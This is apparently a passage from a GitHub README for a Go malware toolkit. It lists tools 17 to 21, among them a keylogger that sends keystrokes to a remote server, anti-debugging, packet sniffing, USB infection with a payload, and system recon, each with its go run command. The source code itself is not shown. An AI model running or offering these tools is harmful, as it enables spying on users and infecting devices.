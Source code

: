 ### 17. Keylogger with Network Exfiltration

Sends logged keystrokes to a remote server.

#### Usage
```sh
go run keylogger_network/main.go <SERVER_IP> <SERVER_PORT>
```

### 18. Anti-Debugging

Detects if the tool is being debugged.

#### Usage
```sh
go run anti_debugging/main.go
```

### 19. Network Packet Sniffer

Captures network packets on the local machine.

#### Usage
```sh
go run packet_sniffer/main.go <INTERFACE>
```

### 20. USB Infection

Infects USB drives with a malicious payload.

#### Usage
```sh
go run usb_infection/main.go <PAYLOAD> <DRIVE_LETTER>
```

### 21. System Recon

Collects extensive system information.

#### Usage
```sh
go run system_recon/main.go
```

### Final Step: Update Dependencies

Ensure all dependencies are up to date.

```sh
go get -u ./...
```

## Contributing
All contributions are welcome to improving this collection.

## LICENSE
This work is under MIT License - Only use on authorised devices.